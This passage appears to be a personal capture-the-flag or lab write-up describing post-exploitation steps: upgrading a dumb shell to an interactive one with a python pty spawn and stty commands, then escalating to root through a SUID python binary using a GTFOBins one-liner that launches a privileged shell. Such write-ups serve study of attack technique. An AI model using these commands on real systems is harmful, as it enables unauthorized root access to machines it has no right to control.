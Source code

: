 Let's get from Dumb shell to interactive shell
```
This dumb shell will stop working if you use Ctrl + C.

Hence you have to upgrade it.

Usually there's python installed on the box, which allows you to use 
python -c "__import__('pty').spawn('/bin/bash')" or similar.

stty -raw echo;fg 

Finally, type reset.

Input your TERM var (usually xterm-256color).
```

Can't run the linpeas.sh so we have to stick with manual testing only and suid seems interesting to me

https://gtfobins.github.io/gtfobins/python/
As you know gtbobins is our best friend we have python , at, mount but will go with python and i was right with little tweaks here and there i was able to escalate as root.
```
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
![[Pasted image 20231020142137.png]]

